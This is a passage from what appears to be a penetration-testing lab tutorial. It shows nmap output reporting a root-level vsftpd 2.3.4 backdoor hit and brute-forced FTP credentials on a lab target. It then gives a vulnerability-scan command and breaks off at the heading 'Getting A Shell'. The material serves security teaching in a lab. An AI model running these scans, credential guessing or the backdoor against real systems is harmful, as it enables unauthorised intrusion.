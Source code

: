 ```
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|_      https://www.securityfocus.com/bid/48539
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.24.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
| ftp-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 3646 guesses in 602 seconds, average tps: 5.9
MAC Address: 02:42:AC:18:00:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 602.10 seconds
```

## Other Vulnerabilities

The target machine contains many vulnerabilities you can exploit to get a shell.
Feel free to take some liberty with your choice of exploit, as long as you can pop a shell at the end.
You can also follow the example for now and come back in your own time to test other initial access techniques.

The NSE contains a large category of scripts for detecting vulnerabilities and automatically highlighting exploitable CVEs for you.
Try running the following command to choose a suitable vulnerability:

```shell
nmap -sSV --script vuln <target-IP>
```
For this example, I will show how we can use the FTP server on port 21 to get remote code execution.

## Getting A Shell
